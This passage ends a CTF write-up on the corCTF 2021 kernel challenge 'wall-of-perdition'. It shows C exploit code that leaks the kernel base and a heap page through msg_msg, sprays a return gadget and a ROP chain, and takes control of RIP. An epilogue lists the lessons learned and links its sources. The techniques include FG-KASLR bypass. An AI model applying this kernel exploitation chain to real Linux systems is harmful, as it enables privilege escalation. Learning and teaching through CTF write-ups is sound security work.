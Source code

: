 ```python
    pipeBufferResize(pipe_fd[0][0],1);
    msgMsg * res = msgPeek(mq[0],0x2000);
    size_t * ptr = res->mtext;
    size_t base = 0 ; 
    size_t current_page = 0 ; 
    __u8 * meta = calloc(1,0x40) ;
    for(int i = 0 ; i < 0x2000/8 ; i++)
    {
        if(ptr[i] == 0x3131313131313131 && i>5)
        {
            current_page = ptr[i-6];
            current_page = current_page>>12<<12;
        }
        if((ptr[i] & 0xfff )== 0xd00)
        {
            memcpy(meta,&ptr[i]-2,0x40);
            base =  ptr[i]- (0xffffffff81a0ed00-0xffffffff81000000);
        }
        if(base!=0 && current_page !=0 )
            break;
    }
    if(!base || !current_page)
        panic("Unfortunately");
    
    warn(hex(base));
    warn(hex(current_page));
    
    ptr = payload;
    u64 RIP = 0xffffffff8100964c - NO_ASLR_BASE + base; // 0xffffffff8100964c: ret 0x149;

    for(int i = 0 ; i < 0x200 ; i++)
        ptr[i] = RIP;
    msgSpray(0xfd0,0x20000/0x1000,payload);
    ptr = meta;
    ptr[2] = current_page+0x900+0x10000;
    edit(0,0,meta);
    sprayROPChain(base,current_page+0x900-0x900);
    // debug();
    ControlRIP(base, current_page);
}
```

# Epilogue

- Learned the generic way to leak with `msg_msg` + `UAF Free`
- Found `ret 0x.*` skill for RetSpill
- Learned FG-KASLR Bypassing
- Practiced Kernel Exploitation

TODO:
- Reproduce the author's methods (msg_msg aar/aaw)
- Know more about FG-KASLR


[1]: https://github.com/Crusaders-of-Rust/corCTF-2021-public-challenge-archive/tree/main/pwn/wall-of-perdition
[2]: https://syst3mfailure.io/wall-of-perdition/
[3]: https://dl.acm.org/doi/abs/10.1145/3576915.3623220
[4]: https://github.com/sefcom/RetSpill/blob/main/igni/chain_builder.py#L97
[6]: https://elixir.bootlin.com/linux/latest/source/include/linux/msg.h#L9
[7]: https://elixir.bootlin.com/linux/latest/source/ipc/msgutil.c#L37
[8]: https://n132.github.io/2024/02/09/IPS.html